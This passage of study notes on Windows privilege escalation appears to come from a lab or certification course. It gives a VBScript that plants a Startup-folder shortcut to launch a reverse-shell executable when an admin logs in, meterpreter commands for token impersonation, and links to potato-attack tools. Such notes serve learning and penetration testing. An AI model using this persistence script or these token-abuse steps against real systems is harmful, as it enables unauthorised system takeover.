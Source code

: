 ```vbs
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```
- Transfer payload and run the script now we need to wait till admin logins and then we'll get the shell.
- This is rare and chance of exploiting thru this is less.

## Token Impersonation:
- Tokens are like cookies for computer, the benefit is that we dont need to mention credentials everytime inorder to connect to any network...etc
- There are 2 types of tokens,
1. Delegate token: created for logging into a machine or using a RDP
2. Impersonate toke: Non-interactive, used for attaching network dirve or a domain logon script.
- We can see all the token by running `list_tokens -u` that too in meterpreter session, later after finding some cool token then run `impersonate_token <name of token>`
- Also we can run `whomai /priv` and we can see the privileges to current user, there if we can find some privilege like `SeAssignPrimaryToken`...etc which are kind of dangerous, this is so dangerous! To know more about these privileges and how to exploit them check this article: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges

-------------------
### Potato Attacks:
- Guide for this attacks is: https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/ 
- And the payload which we can use is: https://github.com/ohpe/juicy-potato
- Here we try to gain access like `NT Authority/System`
[Still in progress.....]
